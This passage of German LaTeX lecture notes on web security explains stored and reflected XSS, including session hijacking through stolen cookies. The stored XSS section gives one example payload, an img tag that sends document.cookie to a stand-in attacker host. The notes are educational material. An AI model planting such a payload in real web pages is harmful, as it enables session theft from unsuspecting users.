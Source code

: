 \subsection{Stored XSS}
Der Angreifer hinterlegt auf dem Server böshaftigen JS Code. Dieser Code wird an das Opfer ausgeliefert und ausgeführt. Der Code sendet dann z.B die Cookies des Opfers an eine Landing Page des Angreifers. (SOP eingehalten). Mit dem Cookie kann der Angreifer die Session des Opfers übernehmen (Session Hijacking) Das exfiltrieren von Informationen wird oft nicht über JavaScript, sondern mit einem Image Tag mit abgeänderter Source gemacht (um CORS zu umgehen).

\begin{lstlisting}
<img src="http://attacker./1x1.jpg?d=document.cookie" />
\end{lstlisting}

\begin{figure}[h!]
	\centering
	\includegraphics[width=0.6\linewidth]{images/stored_xss}
	\caption{Stored XSS}
	\label{fig:storedxss}
\end{figure}


\subsection{Reflected XSS}
Der Angreifer erstellt einen bösartigen Link mit JS Code. Inzwischen haben die Browser jedoch einen clientseitigen XSS Filter eingeführt. Dieser kann aber auch deaktiviert werden. Der Server kann das Feature aber forcieren (X-XSS-Protectection Header). Typischerweise wird die Suchform ausgenutzt.

\begin{figure}[h!]
	\centering
	\includegraphics[width=0.6\linewidth]{images/reflected_xss}
	\caption{Reflexted XSS}
	\label{fig:reflectedxss}
\end{figure}


